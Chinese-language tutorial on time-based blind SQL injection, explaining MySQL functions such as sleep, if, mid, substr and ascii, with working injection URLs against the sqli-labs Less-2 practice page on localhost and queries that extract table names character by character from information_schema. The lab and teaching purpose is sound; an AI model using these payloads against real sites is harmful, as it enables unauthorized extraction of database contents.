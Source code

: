 # 基于时间的SQL盲注 - 延时注入


**知识储备：**

sleep（）：                                     *Sleep* 函数可以使计算机程序（进程，任务或线程）进入休眠

if（）：                                           *i f* 是 计算机编程语言一个关键字，分支结构的一种

mid(a,b,c):                                      从b开始，截取a字符串的c位

substr(a,b,c)：                                从b开始，截取字符串a的c长度

left(database(),1),database() :         left(a,b)从左侧截取a的前b位

length(database())=8 ：                 判断长度

ord=ascii ascii(x)=100：                判断x的ascii值是否为100



在不使用sleep下查询数据所需要的时间：0.03秒

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/86721e1e6625491b89f6de0fd7c8189f.png)

使用sleep可以使查询数据休眠指定时间

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/f3fd6f2e63db44c8adb5d1f84c7150e6.png)


if（a,b,c）：可以理解在java程序中的三目运算符，a条件成立 执行b, 条件不成立，执行c

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/3705cd9bfb4e4b10ae8a8f81712c8c09.png)的


使用if与sleep结合使用：![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/c7279f60359d4778aa443db53705b252.png)

达到延时数据显示，从而通过数据显示的时间判断数据对错!


使用靶场less-2来实现延时注入：

ocalhost/sqli-labs-master/Less-2/index.php?id=1%20and%20sleep(if(database()=%27test%27,0,5))

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/c48403abd1ff4026a2a9485290321fa7.png)


可以通过length（）来判断数据库的长度

http://localhost/sqli-labs-master/Less-2/index.php?id=1%20and%20sleep(if(length(database())=8,8,0))

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/b1de1ad243a04e6d952ca86f0b394a90.png)


![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/4f36b025da8041809ae05b5948ae6ec3.png)

mid（）使用：

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/44847cfea0264c508384528490bf677e.png)




substr()函数
Substr()和substring()函数实现的功能是一样的，均为截取字符串。

string substring(string, start, length)
string substr(string, start, length)
参数描述同mid()函数，第一个参数为要处理的字符串，start为开始位置，length为截取的长度。


substr()函数使用：

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/f10a155fd6cf45a2a0d88159c51dc414.png)


Left()函数

Left()得到字符串左部指定个数的字符

Left ( string, n ) string为要截取的字符串，n为长度。

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/5fc2512b47444fd4a531725e7503a08f.png)


通过以上函数可以来判断数据信息：

http://localhost/sqli-labs-master/Less-2/index.php?id=1%20and%20sleep(if(mid(database(),1,1)=%27t%27,0,5))

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/8f63d5b742564ae18fda98666bc7df98.png)


推荐使用ASCII码

1.防止引号 ‘  “ 转义

2.方便以后工具的使用


使用ascii函数（）

![image.png](https://fynotefile.oss-cn-zhangjiakou.aliyuncs.com/fynote/4348/1646639594000/6eea9e36b99d426184f938a0d29d5c85.png)


结合场景使用：

select * from t1 where id=1 and if(ascii(mid((select table_name from information_schema.tables where table_schema=database() limit 1,1),1,1))=120,sleep(3),0);

select * from t1 where id=1 and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))=116,sleep(2),0);
